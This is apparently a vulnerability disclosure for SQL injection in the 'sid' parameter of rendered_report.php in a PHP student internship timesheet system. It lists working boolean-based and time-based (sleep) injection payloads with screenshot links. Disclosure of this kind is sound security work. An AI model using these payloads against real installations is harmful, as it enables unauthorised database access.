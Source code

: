# Students Online Internship Timesheet System v1.0 exists SQL injection vulnerability

BUG_Author：wwlcz

Website source address: https://www.sourcecodester.com/php/14578/students-online-internship-timesheet-system-using-phpmysqli-source-code.html

Vulnerability File: /internship_timesheet/rendered_report.php

GET parameter 'sid' exists SQL injection vulnerability

Payload1: sid=1 and 777=777

The Boolean-based injection judgment is correct, so the page is displayed normally.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql1.png)

Payload2: sid=1 and 777=666

Boolean-based injection judgment error, so the page returns an exception.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql2.png)

Payload3: sid=1 and (select 2 from (select(sleep(5)))c)

The response time of the server is greater than 5 seconds.

![image](https://github.com/MiserablefaithL/CVERequestReport/blob/main/sql3.png)

